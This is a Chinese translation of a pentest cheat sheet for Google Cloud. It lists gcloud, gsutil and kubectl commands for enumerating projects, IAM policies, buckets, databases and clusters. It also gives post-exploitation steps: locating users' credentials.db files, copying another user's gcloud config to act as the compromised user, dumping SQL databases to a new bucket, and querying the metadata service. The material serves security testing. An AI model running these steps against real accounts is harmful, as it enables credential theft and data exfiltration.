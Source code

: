 # Pentest 笔记:谷歌云版

> 原文：<https://infosecwriteups.com/pentest-notes-google-cloud-edition-2e138bb0f504?source=collection_archive---------4----------------------->

## 黑掉谷歌所需的一切

![](img/930e2c288faa9b15fa820fab12a199da.png)

unsplash.com

## 证明

使用 gcloud 认证

```
#user identity login
gcloud auth login#service account login
gcloud auth activate-service-account --key-file creds.json
```

列出 gcloud 可用的帐户

```
gcloud auth list
```

## 账户信息

获取帐户信息

```
gcloud config list
```

列出组织

```
gcloud organizations list
```

枚举组织范围内的 IAM 策略集

```
gcloud organizations get-iam-policy <org ID>
```

枚举每个项目设置的 IAM 策略

```
gcloud projects get-iam-policy <project ID>
```

列出项目

```
gcloud projects list
```

设置不同的项目

```
gcloud config set project <project name>
```

给出 project 中启用的所有 API 的列表

```
gcloud services list
```

获取可供用户使用的源代码仓库

```
gcloud source repos list
```

克隆存储到主目录

```
gcloud source repos clone <repo_name>
```

## 虚拟机

列出计算实例

```
gcloud compute instances list
```

获取对实例的外壳访问

```
gcloud beta compute ssh --zone "<region>" "<instance name>" --project "<project name>"
```

将公共 ssh 密钥放在项目的元数据服务上

```
gcloud compute ssh <local host>
```

如果在实例上，则获取访问范围

```
curl [http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes](http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes) -H &#39;Metadata-Flavor:Google’
```

使用谷歌密匙环解密加密数据

```
gcloud kms decrypt --ciphertext-file=encrypted-file.enc --plaintext-file=out.txt --key <crypto-key> --keyring <crypto-keyring> --location global
```

## 存储桶

列出谷歌存储桶

```
gsutil ls
```

递归列出谷歌存储桶

```
gsutil ls -r gs://<bucket name>
```

从存储桶复制项目

```
gsutil cp gs://bucketid/item ~/
```

## web 应用程序和 SQL

列出 web 应用程序

```
gcloud app instances list
```

列出 SQL 实例

```
gcloud sql instances list
gcloud spanner instances list
gcloud bigtable instances list
```

列出 SQL 数据库

```
gcloud sql databases list --instance <instance ID>
gcloud spanner databases list --instance <instance name>
```

导出 SQL 数据库和存储桶

首先将存储桶复制到本地目录

```
gsutil cp gs://bucket-name/folder/ .
```

创建新的存储桶，更改 perms，导出 SQL DB

```
gsutil mb gs://<googlestoragename>
gsutil acl ch -u <service account> gs://<googlestoragename>
gcloud sql export sql <sql instance name> gs://<googlestoragename>/sqldump.gz --database=<database name>
```

## 建立工作关系网

列出网络

```
gcloud compute networks list
```

列出子网

```
gcloud compute networks subnets list
```

列出 VPN 隧道

```
gcloud compute vpn-tunnels list
```

列出互连(VPN)

```
gcloud compute interconnects list
```

## 容器

```
gcloud container clusters list
```

GCP Kubernetes 配置文件~/。kube/config 在您通过 gcloud 认证后生成，并运行:

```
gcloud container clusters get-credentials <cluster name> --region <region>
```

如果成功并且用户拥有正确的权限，可以使用下面的 Kubernetes 命令来获取集群信息:

```
kubectl cluster-info
```

## 无服务器

GCP 函数日志分析—可以从与 GCP 函数相关的日志中获得有用的信息

```
gcloud functions list
gcloud functions describe <function name>
gcloud functions logs read <function name> --limit <number of lines>
```

GCP 云运行分析—可以从描述中获得有用的信息，如环境变量。

```
gcloud run services list
gcloud run services describe <service-name>
gcloud run revisions describe --region=<region> <revision-name>
```

Gcloud 将凭证储存在~/中。config/gcloud/credentials.db 搜索主目录

```
sudo find /home -name "credentials.db
```

将 gcloud 目录复制到您自己的主目录，以被入侵用户的身份进行身份验证

```
sudo cp -r /home/username/.config/gcloud ~/.config
sudo chown -R currentuser:currentuser ~/.config/gcloud
gcloud auth list
```

# 元数据服务 URL

```
curl "http://metadata.google.internal/computeMetadata/v1/?recursive=true&alt=text" -H "Metadata-Flavor: Google"
```